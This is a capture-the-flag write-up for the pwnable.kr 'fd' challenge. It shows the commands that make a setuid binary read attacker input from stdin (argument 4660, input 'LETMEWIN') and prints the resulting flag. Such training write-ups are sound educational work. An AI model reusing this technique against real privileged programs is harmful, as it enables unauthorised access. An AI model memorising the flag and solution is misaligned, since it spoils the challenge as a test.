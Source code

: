 ```yaml
---
title: "pwnable.kr - fd"
classes: wide
tag: 
  - "file descriptors"
header:
  teaser: /assets/images/pwn/pwn.png
ribbon: green
description: "A simple challenge related to file descriptors"
categories:
  - Pwn
---
```


Lets connect to the server

```c
ra@moni~/P/pwnable.kr> ssh fd@128.61.240.205 -p 2222
fd@128.61.240.205's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Wed Jun  2 04:57:50 2021 from 106.114.115.94
fd@pwnable:~$
```

After listing the files, we can see there are some privilege restrictions 

```c
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 115 root   root 4096 Dec 22 08:10 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

It seems like we cannot read the flag directly

```c
fd@pwnable:~$ whoami
fd
fd@pwnable:~$ cat flag
cat: flag: Permission denied
```

And analysing our source code of the binary we get,

The RAW CODE is given below,

```c
fd@pwnable:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

From here we can see,

- This binary uses a global variable ```buf``` of 32 bytes

- This binary gets two inputs from arguments (ie. Filename Arg1 )

- It uses ```atoi()``` to convert string to integer

- It uses ```read()``` to get the input data

- It uses ```strcmp()``` and compares it with ```LETMEWIN``` to display the flag


First inorder to compare the data, we need to store it in the ```buf```

Here we are using ```read()``` to store it in ```buf```

To use ```read()``` properly we need to pass the "file descriptor" correctly

```read()``` needs ```0``` as file descriptor

For more about [File Descriptor](https://en.wikipedia.org/wiki/File_descriptor)

To make our file descriptor ```fd``` as ```0```

we should make use of ```int fd = atoi( argv[1] ) - 0x1234;```

So if we pass a value of ```0x1234``` in ```argv[1]``` we could activate ```read()```

Now we need to find value of ```0x1234``` in ```int```

```c
Python 3.8.5 (default, May 27 2021, 13:30:53)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x1234)
4660
```

If we pass this value, our ```read()``` function should be opened to pass our data

Now lets pass ```LETMEWIN``` in our ```buf```

```c
fd@pwnable:~$ ./fd
pass argv[1] a number
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Thats it, we got our conditions true

And we get the flag

```FLAG: mommy! I think I know what a file descriptor is!!```